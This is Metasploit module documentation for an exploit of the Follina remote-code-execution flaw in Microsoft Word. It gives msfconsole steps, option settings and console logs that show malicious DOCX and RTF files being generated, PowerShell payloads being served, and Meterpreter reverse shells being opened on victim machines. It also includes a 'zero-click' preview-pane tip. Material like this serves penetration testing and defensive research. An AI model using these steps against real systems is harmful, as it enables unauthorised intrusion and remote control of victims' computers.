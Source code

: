 There exists a vulnerability in Microsoft Word that leverages the remote template feature to achieve remote code
execution against the target.

The vulnerability came to light after an independent cyber-security research team known as `nao_sec` uncovered a Word
document ([05-2022-0438.doc](https://app.any.run/tasks/713f05d2-fe78-4b9d-a744-f7c133e3fafb/)) that was uploaded to
VirusTotal from an IP address in Belarus.

The document uses the remote template feature to fetch an HTML document and then uses the `ms-msdt` scheme to execute
PowerShell code.

## Vulnerable Application

The vulnerability has been found in Office 2013, 2016, 2019, 2021, Office ProPlus and Office 365. It also applies to
Windows itself, e.g. it can be called from `.lnk` files and with `wget` into `PowerShell`.

The vulnerability is exploitable using `.RTF` files on all versions of Office 365, including current channel.

However, with Insider and Current builds of Office, it doesn't seem to work.

### Make your lab

You need an official version of Microsoft Office installed.

Tested on Microsoft Windows 10 1909 with Microsoft Office Word 2016.

## Verification Steps

1. Start `msfconsole`
2. `use exploit/windows/fileformat/word_msdtjs_rce`
3. `set SRVHOST [IP]`
4. `set LHOST [IP]`
5. `run`

## Options

### CUSTOMTEMPLATE

A DOCX file that will be used as a template to build the exploit.

### OBFUSCATE

Obfuscate JavaScript content. Default: true

### URIPATH
The URI for the callback to get the payload.  Testing suggests this must be ANSI compatible and the full URI must be less than 76 characters.

## Scenarios

### Basic use

1. Generate the exploit for docx as following.

```
[*] Started reverse TCP handler on 172.20.32.36:4444 
[*] Using URL: http://172.20.32.36:8080/1GWqOqp7e1
[*] Server started.
[*] Generate a malicious docx file
[*] Using template '/tmp/payload.docx'
[*] Parsing item from template: docProps/
[*] Parsing item from template: docProps/core.xml
[*] Parsing item from template: docProps/app.xml
[*] Parsing item from template: word/
[*] Parsing item from template: word/theme/
[*] Parsing item from template: word/theme/theme1.xml
[*] Parsing item from template: word/styles.xml
[*] Parsing item from template: word/settings.xml
[*] Parsing item from template: word/document.xml
[*] Parsing item from template: word/_rels/
[*] Parsing item from template: word/_rels/document.xml.rels
[*] Parsing item from template: word/fontTable.xml
[*] Parsing item from template: word/webSettings.xml
[*] Parsing item from template: _rels/
[*] Parsing item from template: _rels/.rels
[*] Parsing item from template: [Content_Types].xml
[*] Injecting payload in docx document
[*] Finalizing docx 'msf.docx'
[+] msf.docx stored at /home/[REDACTED]/.msf4/local/msf.docx
[*] Powershell command length: 3724
```

2. Open the DOCX document on a remote vulnerable system.

```
[*] 172.20.32.36      word_msdtjs_rce - Sending HTML Payload
[*] 172.20.32.36      word_msdtjs_rce - Obfuscate JavaScript content
[*] 172.20.32.36      word_msdtjs_rce - Sending HTML Payload
[*] 172.20.32.36      word_msdtjs_rce - Obfuscate JavaScript content
[*] 172.20.32.36      word_msdtjs_rce - Sending HTML Payload
[*] 172.20.32.36      word_msdtjs_rce - Obfuscate JavaScript content
[*] 172.20.32.36      word_msdtjs_rce - Sending PowerShell Payload
[*] Sending stage (200262 bytes) to 172.20.32.36
[*] Meterpreter session 1 opened (172.20.32.36:4444 -> 172.20.32.36:42674 ) at 2022-05-30 19:32:37 +0400
```

### The 0-Click tip

You can get the 0-click by either selecting the 'rtf' option in converting, manually, the `.docx` file generated by the module into a `.rtf` file format.

### RTF 

1. Generate the exploit for rtf as following.
```
msf exploit(windows/fileformat/word_msdtjs_rce) > show options

Module options (exploit/windows/fileformat/word_msdtjs_rce):

Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
CUSTOMTEMPLATE                   no        A DOCX file that will be used as a template to build the exploit.
FILENAME        msf.docx         no        The file name.
OBFUSCATE       true             yes       Obfuscate JavaScript content.
OUTPUT_FORMAT   docx             yes       File format to use [docx, rtf]. (Accepted: docx, rtf)
SRVHOST         10.5.135.101     yes       The local host or network interface to listen on. This must be an address on the loca
l machine or 0.0.0.0 to listen on all addresses.
SRVPORT         8080             yes       The local port to listen on.
SSL             false            no        Negotiate SSL for incoming connections
SSLCert                          no        Path to a custom SSL certificate (default is randomly generated)
URIPATH                          no        The URI to use for this exploit (default is random)


Payload options (windows/x64/meterpreter/reverse_tcp):

Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
LHOST                      yes       The listen address (an interface may be specified)
LPORT     4444             yes       The listen port


Exploit target:

Id  Name
   --  ----
0   Microsoft Office Word


msf exploit(windows/fileformat/word_msdtjs_rce) > set filename test.rtf
filename => test.rtf
msf exploit(windows/fileformat/word_msdtjs_rce) > set output_format rtf
output_format => rtf
msf exploit(windows/fileformat/word_msdtjs_rce) > set lhost 10.5.135.101
lhost => 10.5.135.101
msf exploit(windows/fileformat/word_msdtjs_rce) > set verbose true
verbose => true
msf exploit(windows/fileformat/word_msdtjs_rce) > set disablepayloadhandler false
disablepayloadhandler => false
msf exploit(windows/fileformat/word_msdtjs_rce) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.5.135.101:4444
[*] Using URL: http://10.5.135.101:8080/7eIbCn81aas277
[*] Server started.
[*] Generating a malicious rtf file
[+] test.rtf stored at /home/tmoose/.msf4/local/test.rtf
msf exploit(windows/fileformat/word_msdtjs_rce) > [*] Powershell command length: 3718
```

2. Upload rtf file to remote host, make sure 'preview' is enabled, and click on the file.  (You don't need to open it, just click once to preview it)

```
[*] 10.5.132.101     word_msdtjs_rce - Sending HTML Payload
[*] 10.5.132.101     word_msdtjs_rce - Obfuscate JavaScript content
[*] 10.5.132.101     word_msdtjs_rce - Sending PowerShell Payload
[*] Sending stage (200774 bytes) to 10.5.132.101
[*] Meterpreter session 1 opened (10.5.135.101:4444 -> 10.5.132.101:51221) at 2022-08-17 10:56:01 -0500

msf exploit(windows/fileformat/word_msdtjs_rce) > sessions -i -1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : DESKTOP-D1E425Q
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: DESKTOP-D1E425Q\msfuser
```

## References

  1. <https://www.reddit.com/r/blueteamsec/comments/v06w2o/suspected_microsoft_word_zero_day_in_the_wild/>
  2. <https://twitter.com/nao_sec/status/1530196847679401984?t=3Pjrpdog_H6OfMHVLMR5eQ&s=19>
  3. <https://app.any.run/tasks/713f05d2-fe78-4b9d-a744-f7c133e3fafb/>
  4. <https://doublepulsar.com/follina-a-microsoft-office-code-execution-vulnerability-1a47fce5629e>
  5. <https://twitter.com/GossiTheDog/status/1531608245009367040>
  6. <https://github.com/JMousqueton/PoC-CVE-2022-30190>

